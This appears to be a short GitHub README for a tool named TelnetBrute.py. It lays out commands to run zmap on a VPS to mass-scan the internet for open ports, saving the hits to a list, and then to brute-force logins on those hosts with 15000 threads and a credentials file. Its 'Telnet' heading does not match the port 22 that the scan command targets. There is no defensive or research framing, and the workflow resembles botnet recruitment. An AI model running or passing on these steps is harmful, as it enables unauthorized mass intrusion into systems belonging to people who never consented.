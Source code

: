 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p22 -o mfu.txt -w Legend.lst 

- Bruteforce (Repeat The Process)

1- ulimit -n 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt


<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lol.png">





Usage:

python TelnetBrute.py mfu.txt 15000 test.txt
